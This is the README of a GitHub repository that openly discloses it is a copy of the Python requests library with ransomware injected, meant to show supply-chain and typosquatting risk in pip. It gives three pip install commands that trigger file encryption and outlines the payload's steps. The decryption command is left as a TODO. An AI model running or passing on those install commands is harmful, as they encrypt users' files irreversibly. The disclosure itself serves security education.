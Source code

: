 
# MALWARE DISCLOSURE
<span style="color:red">THIS REPOSITORY IS MALWARE! Installation via pip WILL ENCRYPT YOUR FILES.</span>

This repository is a clone of the python requests package with ransomware injected into it. This project is to demonstrate. This repository constitutes `dual use content` per the [github malware policy](https://docs.github.com/en/github/site-policy/github-community-guidelines#active-malware-or-exploits).  

## Purpose

The process in which pip works is flawed. If this package was published to pypi, under a different name with a low levenshtein distance it could have catastrophic consequences. The inherent flaws in the pip package manager are multipronged.  

- pip allows for arbitrary code execution with a single install command.
  - one mistyped letter could cause irreversible damage to a developer's computer
- pypi does not actively scan for malware on their platform
  - some 3rd parties do this with a reactionary approach

This repository is not intended to be published, but to show the dangers and inherent trust that a developer must accept when using a package or library.  
Many popular packages have hundreds of dependencies. The simple and common act of including a single package in a requirements.txt or pip instal means that you trust the code of every one of these hundreds of developers. Numerous instances of supply chain attacks have occurred in recent years and this danger is very real.

## DANGER!

The following commands trigger the malware attack, and should not be run.  
`pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`pip3 install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`python3 -m pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  

A decryption tool is installed with this ransomware, the commands to decrypt your files is  
`python3 TODO`  

The action of this repository is as follows:

- determine the operating system
- recursively operate on `my documents`|`/home/${USER}`|`/Users/${USER}` for windows|linux|mac
- Flag any file with an indication of sensitive information in the filename, (i.e. 2020_tax, mortgage-application, bitcoinWallet)
  - a real malicious script would post these files to some darkweb site
- encrypt all files in the user's documents folder
- show ransom demands (with password to decrypt)

## Original Content

---

# Requests

**Requests** is a simple, yet elegant, HTTP library.

```python
>>> import requests
>>> r = requests.get('https://api.github.com/user', auth=('user', 'pass'))
>>> r.status_code
200
>>> r.headers['content-type']
'application/json; charset=utf8'
>>> r.encoding
'utf-8'
>>> r.text
'{"type":"User"...'
>>> r.json()
{'disk_usage': 368627, 'private_gists': 484, ...}
```

Requests allows you to send HTTP/1.1 requests extremely easily. There’s no need to manually add query strings to your URLs, or to form-encode your `PUT` & `POST` data — but nowadays, just use the `json` method!

Requests is one of the most downloaded Python package today, pulling in around `30M downloads / week`— according to GitHub, Requests is currently [depended upon](https://github.com/psf/requests/network/dependents?package_id=UGFja2FnZS01NzA4OTExNg%3D%3D) by `500,000+` repositories. You may certainly put your trust in this code.

[![Downloads](https://pepy.tech/badge/requests/month)](https://pepy.tech/project/requests)
[![Supported Versions](https://img.shields.io/pypi/pyversions/requests.svg)](https://pypi.org/project/requests)
[![Contributors](https://img.shields.io/github/contributors/psf/requests.svg)](https://github.com/psf/requests/graphs/contributors)

## Installing Requests and Supported Versions

Requests is available on PyPI:

```console
$ python -m pip install requests
```

Requests officially supports Python 2.7 & 3.6+.

## Supported Features & Best–Practices

Requests is ready for the demands of building robust and reliable HTTP–speaking applications, for the needs of today.

- Keep-Alive & Connection Pooling
- International Domains and URLs
- Sessions with Cookie Persistence
- Browser-style TLS/SSL Verification
- Basic & Digest Authentication
- Familiar `dict`–like Cookies
- Automatic Content Decompression and Decoding
- Multi-part File Uploads
- SOCKS Proxy Support
- Connection Timeouts
- Streaming Downloads
- Automatic honoring of `.netrc`
- Chunked HTTP Requests

## API Reference and User Guide available on [Read the Docs](https://requests.readthedocs.io)

[![Read the Docs](https://raw.githubusercontent.com/psf/requests/main/ext/ss.png)](https://requests.readthedocs.io)

## Cloning the repository

When cloning the Requests repository, you may need to add the `-c
fetch.fsck.badTimezone=ignore` flag to avoid an error about a bad commit (see
[this issue](https://github.com/psf/requests/issues/2690) for more background):

```shell
git clone -c fetch.fsck.badTimezone=ignore https://github.com/psf/requests.git
```

You can also apply this setting to your global Git config:

```shell
git config --global fetch.fsck.badTimezone ignore
```

---

[![Kenneth Reitz](https://raw.githubusercontent.com/psf/requests/main/ext/kr.png)](https://kennethreitz.org) [![Python Software Foundation](https://raw.githubusercontent.com/psf/requests/main/ext/psf.png)](https://www.python.org/psf)
